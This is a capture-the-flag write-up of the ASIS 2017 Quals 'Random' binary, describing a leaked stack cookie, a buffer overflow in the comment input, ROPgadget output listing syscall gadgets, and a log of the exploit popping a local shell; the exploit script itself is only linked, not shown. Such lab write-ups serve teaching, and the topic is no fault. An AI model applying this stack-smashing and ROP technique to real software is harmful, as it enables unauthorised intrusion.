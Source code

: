 ```yaml
---
layout: post
title: ASIS 2017 Quals Random
comments: true
category: ctf
tags: ctf, asis 2017, pwnable, rop
---
```


This is a write of the cahllenge Random from ASIS Quals 2017 CTF

## The Challenge

Its a simple 64-bit binary which generates 'random' numbers, it has stack cookies.

## Hand fuzzing

It was not necessary to reverse engineer the binary as it has odd and exploitable behaviour.

The binary behaves differently locally and remotely.
Locally it returns only 0 when giving random numbers.
Remotely is returns what looks like random numbers.
After a short while of debugging I deduce that it is leaking the stack cookie.
Also there is a buffer overflow when leaving a comment.

## Exploitation

I found ROP gadgets using `ROPGadget`

```console
$ ROPgadget --binary Random_Generator_8c110de2ce4abb0f909bca289fb7b1a99fd18ef1
Gadgets information
============================================================
...
0x0000000000400f88 : mov rdx, rsi ; ret
...
0x0000000000400f8c : pop rax ; pop rdi ; ret
...
0x0000000000400f61 : pop rsi ; pop r15 ; ret
...
0x0000000000400f8f : syscall ; ret
```

These gadget are enough to make syscalls with 3 arguments, so I made an exploit:

{% gist efc21d1a6923e2a1c416c71202ddbd92 %}

Running it pops a shell:

```console
$ python doit.py
[+] Starting local process './Random_Generator_8c110de2ce4abb0f909bca289fb7b1a99fd18ef1': Done
[*] Stack cookie = 0x0000000000000000
[*] Switching to interactive mode
$ bash -l
$ cowsay "I got shell"
 _____________
< I got shell >
 -------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
$ ^C
[*] Interrupted
[*] Stopped program './Random_Generator_8c110de2ce4abb0f909bca289fb7b1a99fd18ef1'
```

